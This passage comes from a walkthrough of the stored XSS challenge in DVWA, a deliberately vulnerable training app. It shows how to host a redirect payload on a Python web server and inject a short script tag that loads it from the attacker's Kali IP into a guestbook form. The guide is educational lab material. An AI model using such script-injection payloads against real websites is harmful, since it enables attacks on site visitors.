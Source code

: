 <ul>
  <li>Set up your server with: <code>python -m SimpleHTTPServer 80</code>
    <ul>
      <li>We set the <code>port</code> argument to 80 so we don't need to specify a port in our exploit. That will save us 5 characters. Note that you may need to kill your running Apache instance with <code>service apache2 stop</code> for this to work.</li>
    </ul>
  </li>
  <li>Payload: <code>window.location.replace("http://www.google.com");</code>
    <ul>
      <li>We'll save this as with a short name to save even more characters. I chose "r.js".</li>
    </ul>
  </li>
  <li>Exploit: <code>&#60;script src=http://[your_Kali_IP]/r.js&#62;&#60;/script&#62;</code></li>
</ul>

With this setup, your exploit should be around 48 characters in length, give or take a few depending on your IP address or file name. That's the perfect length, and we should be able to implement the attack.

Let's go back to the form and try it out! For "Name", put anything you want, like "test". For "Message", input our shortened exploit.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xsssexploit.png" width="500">

Inspecting the new guestbook entry (Right-click > "Inspect Element") and reviewing the source code shows us that we successfully inserted the malicious script into our web page:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitsource.png" width="700">

Looking at the Python web server shows a successful attempt to retrieve our payload:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitweb.png" width="500">

And if we refresh the page and click through the Firefox warning, we can confirm we get redirected to http://www.google.com/ as we wanted!

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xsssexploitsuccess.png" width="500">

Challenge complete!

